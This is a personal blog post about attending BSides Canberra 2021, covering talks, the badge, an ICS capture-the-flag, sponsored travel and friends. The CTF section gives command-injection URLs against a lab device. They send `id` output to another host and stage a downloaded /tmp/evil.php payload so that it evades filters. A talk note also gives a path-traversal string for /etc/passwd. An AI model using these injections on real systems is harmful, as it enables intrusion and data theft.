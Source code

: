 ```yaml
---
layout: post
date: 2021-04-10
categories: ['life']
published: true
title: Bsides Canberra 2021
---
```


## A change in perspective :cowboy_hat_face:
It really is a surreal experience attending the conference from the standpoint of someone who is currently working in the industry.  

![ctf-go-brrrrrrrt](/assets/images/bsides21-ctfroom.jpg)  
Only a few years ago, I was the penultimate-year uni student who was trying to prove their worth in a rapidly advancing industry.

Now that I have finally set foot in it, there is a feeling of calmness --- :wind_chime:

Instead of focusing on maximizing the value gained from the conference :disappointed_relieved:  
I decided this time to just catchup with old friends instead :beers:  

<br/>

## The badge :beginner:

Honestly? I never inspected the badge contents once during the conference.  
Not even now, as I'm writing this one week post-conference.  

<blockquote class="twitter-tweet"><p lang="en" dir="ltr">A big shout out to the volunteers at <a href="https://twitter.com/PentenCyber?ref_src=twsrc%5Etfw">@PentenCyber</a> who fought through a busy time at work and a global parts shortage to deliver the <a href="https://twitter.com/BSidesCbr?ref_src=twsrc%5Etfw">@BSidesCbr</a> badge to the community with the support of our friends at GME and <a href="https://twitter.com/4design_news?ref_src=twsrc%5Etfw">@4design_news</a> to make the badge in Sydney <a href="https://twitter.com/hashtag/madeinaustralia?src=hash&amp;ref_src=twsrc%5Etfw">#madeinaustralia</a> <a href="https://t.co/PNAffZt17R">pic.twitter.com/PNAffZt17R</a></p>&mdash; Penten (@PentenCyber) <a href="https://twitter.com/PentenCyber/status/1380289053120024580?ref_src=twsrc%5Etfw">April 8, 2021</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script> 

> If you were involved in the badge making team, I respect all the blood,sweat and tears you've put in. But seriously, the design is not ergonomic or intuitive at all!

I definitely wasn't alone in this opinion as well:
- The badge was heavy and clunky compared to previous years
- The on switch _(yes you read that right)_ couldn't be reached with your bare hands as it was indented into the badge

Then again, I am probably just a whiny pentester who doesn't know shit about hardware hacking and thus can't appreciate the full value of the badge. :man_shrugging:  
This [blog post](https://mosandboo.com/bsides-cbr-2021-badge-hacking-part-1/){:target="_blank"} looks cool though!

<br/>

## The talks :speaking_head:

Here are the talks that I was most interested in:
[\[Scroll til **"Main Track"**\]](https://web.archive.org/web/20210401021357/https://www.bsidesau.com.au/speakers.html){:target="_blank"}  
some I watched; others I'll have to wait til the recording comes out... 

|Title | Author(s) | Why I watched/will watch|
|:-----|:----------|:--------------------------|
|:biohazard: The <br/>Security<br/> of <br/>Emojis :biohazard:|Adrian Justice|Thought it would be interesting, turned out it was a funny (but filler) presentation, still a good watch and reinforces the ideal of always challenging developers' assumptions|
|Easy LPEs and <br/>common software <br/>vulnerabilities|Christopher Vella|Haven't watched yet but heard its good, especially for those heading down the vuln research path!|
|The defender's new clothes|Eldar Marcussen|(see below)|
|13 Nagios Vulnerabilities, <br/>#7 will SHOCK you!|Samir Ghanem|(see below)|
|Context Aware Content Discovery: The Natural Evolution|Assetnote|(see below)|
|Understanding Real Threats for <br/>Real Security|Shane Hutley|Haven't watched yet but recommended by few other people so will watch|
 
<br/>  

#### My takeaways :alembic:  

<u>The defenders new clothes</u>:
- I really enjoyed Eldar's casual style of presentation, as though he is simply talking to himself on stage :snowflake: :cucumber:  
- The interesting tadeoff between using string-based pattern matching and regex-based pattern matching in WAFs:
  - One brings the risk of WAD Denial of Service due to rmalicious regex
  - The other has an inherent risk of false negatives ie. bypasses  
- Using a few of his tools: [`travesty`](https://github.com/wireghoul/traversty){:target="_blank"}, [`PHP-omelette`](https://github.com/wireghoul/php-omelette){:target="_blank"} and so on... its possible to bypass WAFs or detection tools
- Never underestimate the power of a good `//.///..//..///..///etc/passwd` :wink:

<u>NagiOS vulnerabilities</u>:
- It gives me hope that vuln research is still alive and kicking, and that I should really get into it sometime!
- Never make assumptions about how the security of applications, despite the reputation of an org
- I really should look at NagiOS or other similar products to find CVEs in...

<u>Context Aware Asset Discovery</u>:
- I really love what AssetNote is doing at the moment, even though they are a small team, they are creating tools that larger firms would not be able to produce
- I think its also largely due to their business model being innovative and pushing the boundaries of what we think is possible
- What really makes them amazing is they care about the infosec community and always open source their tools and data for everyone to use, which is really heartwarming to say the least :blush:
- Big props to @sean who spent two months researching and building Kiterunner, I can see it being used as part of API testing in legit jobs, as well as by bounty hunters to find more obscure endpoints!!! Truly a great gift to all web-based researchers out there :gift:  

<br/>

---

<br/>


## Industrial Control Systems (ICS) CTF :factory:

I decided to play in this one because it was a good refresher exercise for OSCP/HTB-style challenges which resemble real-world scenarios:

> Long-story-short: After playing, failing, and ultimately running out of time,  I learnt the following new techniques:  :bulb:

<u>WordPress challenge:</u>
- When using `WPScan`, sometimes it might be worth using **_aggresive mode_** or you might miss the one plugin you need for the foothold

<u>Command Injection challenge:</u>
- Apparently you can actually abuse the `-p pattern` in `ping` command during command injection to exfiltrate 16 bytes of data at a time :sparkles:
- Instead of trying to execute commands within the command itself, ie:
  ```bash
  http://172.19.4.44/cgi-bin/device.cgi?command=ping&targetip=$(curl%2010.19.0.205?`id`)
  ```  

  One could instead opt to execute a staged-payload of sorts, <br/>to avoid triggering filters/detections:
  ```bash
  http://172.19.4.44/cgi-bin/device.cgi?command=ping&targetip=$(curl%2010.19.0.205/data.txt%20>%20/tmp/evil.php)
  http://172.19.4.44/cgi-bin/device.cgi?command=ping&targetip=$(chmod%20711%20/tmp/evil.php)
  http://172.19.4.44/cgi-bin/device.cgi?command=ping&targetip=$(php%20/tmp/evil.php)
  # Altogether in three steps: curl 10.19.0.205/data.txt > evil.php; chmod 711 /tmp/evil.php; php /tmp/evil.php
  ```






<br/>


## My accomodation :hotel:

- Thanks Privasec for paying for the hotel!
  - The room was much larger than I expected, almost like an apartment!
  - they even had a pool (I swam in it as well one night :swimming_man:)  
  - It came with a kitchen setup which is great as I could prepare meals

![pool](/assets/images/bsides21-pool.jpg)

<br/>

## Sydney :repeat: Canberra flights :airplane:

Again, thanks Privasec for sponsoring my to/fro flights :grin:
This was my first time taking a plane from Sydney to Canberra:
- I felt like I waited at the airport (starting from gate opening) longer than the flight itself!
- 30 mins for everyone to board and take off, another 30 mins in the air
- It was a **QantasLink Dash 8 Q400** airplane, with propellers on each side and only two seats per side :hushed: 

![dash-flight](/assets/images/bsides21-dash.jpg)

<br/>

## Catchups/New friendships :busts_in_silhouette:

It was great to catch up with all my friends from various places such as:
- UNSW Security Society
- current Privasec colleagues
- ex-HackLabs colleagues
- ex-Pure Security colleagues
- other connections from Sydney/Melbourne

I also met new people from other penetration testing firms and also other student societies!  

Also, I played this game at the Token Barcade and it was quite fun:  

{:refdef style="text-align: center;"}
![buckhunt](/assets/images/bsides21-buckhunt.jpg)
{:refdef}
<br/>



